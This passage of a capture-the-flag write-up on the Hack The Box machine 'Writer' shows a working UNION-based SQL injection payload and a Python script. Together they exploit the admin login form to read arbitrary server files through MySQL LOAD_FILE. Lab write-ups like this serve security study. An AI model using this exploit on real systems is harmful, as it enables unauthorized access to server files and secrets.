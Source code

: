 ```bash
            <div class="page-content vertical-align-middle">
                <header>
                    <h3 class="animation-slide-top">Welcome admin</h3>
                </header>
                <p class="success-advise">Redirecting you to the dashboard. If you are not redirected then click the button below to be redirected.</p>
                <a class="btn btn-primary btn-round mb-5" href="/dashboard">CLICK HERE</a>
                <footer class="page-copyright">
                    <p>© Writer.HTB 2021. All RIGHT RESERVED.</p>
                </footer>
            </div>
        </div>
    </div>
    <script src="vendor/jquery/jquery.min.js"></script>
    <script src="vendor/bootstrap/js/bootstrap.min.js"></script>
</body>

</html>
```

After some attempts verified that I was able to gather information using `union all` and, using MySQL `FILE_LOAD()` I was able to read data from files inside the server. To make it easier read them, wrote a simple python script below

```python
#!/usr/bin/python3

import requests, argparse, re, html 

parser = argparse.ArgumentParser(description='Downloads files using MYSQL LOAD_FILES from writer.htb administrative login page')
parser.add_argument('--file', metavar='file',type=str, help='File Path to be retrieved')

args = parser.parse_args()

url = "http://writer.htb/administrative"
injection = "' union all select 1,CONCAT('R@nD0mD4tA',LOAD_FILE('{}'),'R@nD0mD4tA'),3,4,5,6 -- ".format(args.file)
print(injection)

postData = {
    'uname': injection,
    'password' : 'admin'
}

r = requests.post(url=url, data=postData)
regex = r'R@nD0mD4tA(.|\n)*?R@nD0mD4tA'
matches = re.finditer(regex, r.text, re.MULTILINE)

for matchNum, match in enumerate(matches, start=1):
    match = html.unescape(match.group().replace("R@nD0mD4tA",""))
    print ("Content of {file}:\n\n{match}".format(file=args.file, match = match))
```
